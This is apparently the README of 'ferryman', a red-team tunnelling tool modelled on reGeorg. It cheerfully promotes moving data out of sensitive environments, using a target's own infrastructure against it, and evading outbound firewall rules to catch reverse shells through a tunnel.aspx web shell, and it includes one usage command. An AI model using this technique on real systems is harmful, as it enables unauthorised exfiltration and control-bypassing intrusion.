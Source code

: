 # ferryman

Inspiration taken from: https://github.com/sensepost/reGeorg

Ever wanted to traffic data out of a sensitive environment? Do you like leveraging peoples own infrastructure against them?  
Well now you can! 

Using ferryman, you can open a local port and traffic any data out just as if you were directly connecting to your service. 

Want to catch a regular reverse shell? But cant due to outbound firewall rules? 
Just use ferryman to open a port on the target machines local host, and point your reverse shell to that. Easy beans. 

This is a companion tool to https://github.com/NHAS/reverse_ssh

# Usage

```
ferryman <Service to forward data to> <remote tunnel.aspx path> <local port to open>
ferryman 127.0.0.1:80 https://foobeans.com/tunnel.aspx 5555
```

